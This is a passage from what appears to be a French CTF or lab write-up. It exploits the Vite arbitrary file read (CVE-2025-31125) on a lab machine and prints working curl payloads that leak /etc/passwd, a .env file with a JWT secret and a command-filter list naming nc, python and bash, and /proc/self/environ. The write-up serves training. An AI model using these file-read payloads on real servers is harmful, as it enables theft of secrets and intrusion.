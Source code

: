 ```
runner:x:1000:1000:::/bin/sh
hana:x:1001:100::/home/hana:/bin/sh
gitea:x:102:82:gitea:/var/lib/gitea:/bin/sh
```

La vulnérabilité est décrite ici : [CVE-2025-31125 - Vite Leaks Local Files via ?inline&import or ?raw?import](https://www.cve.news/cve-2025-31125/)

Il y a notamment un exemple pour faire fuiter les secrets de l'application, mais ça n'a pas fonctionné dans mon cas :

```console
$ curl "http://192.168.56.106:3000/.env?import&inline"

    <body>
      <h1>403 Restricted</h1>
      <p>The request url "/opt/node/.env" is outside of Vite serving allow list.<br/><br/>- /opt/node<br/><br/>Refer to docs https://vite.dev/config/server-options.html#server-fs-allow for configurations and more details.</p>
      <style>
        body {
          padding: 1em 2em;
        }
      </style>
    </body>
```

J'ai toutefois l'information que le code semble être présent dans `/opt/node`, je peux donc utiliser l'URL trouvée par Nuclei pour obtenir le fichier :

```console
$ curl "http://192.168.56.106:3000/@fs/opt/node/.env?import&?inline=1.wasm?init"

import initWasm from "/@id/__x00__vite/wasm-helper.js"
export default opts => initWasm(opts, "data:application/octet-stream;base64,SldUX1NFQ1JFVD0nMjk0MnN6S0c3RXY4M2FEdml1Z0FhNnJGcEtpeFp6WnonCkNPTU1BTkRfRklMVEVSPSduYyxweXRob24scHl0aG9uMyxweSxweTMsYmFzaCxzaCxhc2gsfCwmLDwsPixscyxjYXQscHdkLGhlYWQsdGFpbCxncmVwLHh4ZCcK")

//# sourceMappingURL=data:application/json;base64,eyJ2ZXJzaW9uIjoz--- snip ---xNQUFNLENBQUMsd0xBQXdMLENBQUM7In0=
```

Seule la première partie nous intéresse (le `ops`) et ça se décode ainsi :

```bash
JWT_SECRET='2942szKG7Ev83aDviugAa6rFpKixZzZz'
COMMAND_FILTER='nc,python,python3,py,py3,bash,sh,ash,|,&,<,>,ls,cat,pwd,head,tail,grep,xxd'
```

J'avais aussi dumpé `/proc/self/environ` mais on n'y retrouve pas les secrets qui doivent être chargés par le framework.

```
EINFO_LOG=/etc/init.d/node
USER=runner
npm_config_user_agent=pnpm/10.8.1 npm/? node/v22.13.1 linux x64
npm_node_execpath=/usr/bin/node
SHLVL=7
HOME=
RC_SVCNAME=node
npm_config_registry=https://registry.npmjs.org/
TERM=vt102
RC_SERVICE=/etc/init.d/node
SVCNAME=node
npm_config_node_gyp=/usr/local/lib/node_modules/pnpm/dist/node_modules/node-gyp/bin/node-gyp.js
PATH=/opt/node/node_modules/.bin:/opt/node/node_modules/.bin:/usr/local/lib/node_modules/pnpm/dist/node-gyp-bin:/bin:/sbin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin
```
